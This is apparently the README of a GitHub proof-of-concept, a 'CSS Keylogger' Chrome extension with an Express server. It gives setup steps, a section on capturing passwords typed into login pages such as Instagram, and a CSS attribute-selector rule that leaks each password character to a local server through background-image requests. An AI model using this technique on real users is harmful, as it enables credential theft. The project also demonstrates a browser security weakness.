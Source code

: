 # CSS Keylogger

Chrome extension and Express server that exploits keylogging abilities of CSS.

## To use

### Setup Chrome extension

1. Download repository `git clone https://github.com/maxchehab/CSS-Keylogging`
2. Visit `chrome://extensions` in your browser (or open up the Chrome menu by clicking the icon to the far right of the Omnibox: The menu's icon is three horizontal bars. and select Extensions under the More Tools menu to get to the same place).
3. Ensure that the Developer mode checkbox in the top right-hand corner is checked.
4. Click Load unpacked extension… to pop up a file-selection dialog.
5. Select the `css-keylogger-extension` in the directory which you downloaded this repository.

### Setup Express server

1. yarn
2. yarn start

### Haxking l33t passw0rds

1. Open any website login page. [https://instagram.com](https://www.instagram.com/).
2. Press the extension `C` on the top right of any webpage.
3. Type your password.
4. Your password should be captured by the express server.

## How it works

This attack is really simple. Utilizing CSS attribute selectors, one can request resources from an external server under the premise of loading a `background-image`.

For example, the following css will select all input's with a `type` that equals `password` and a `value` that ends with `a`.
It will then try to load an image from `http://localhost:3000/a`.

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

Using a simple [script](https://github.com/maxchehab/CSS-Keylogging/blob/master/build.go) one can create a [css file](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css) that will send a custom request for every ASCII character.
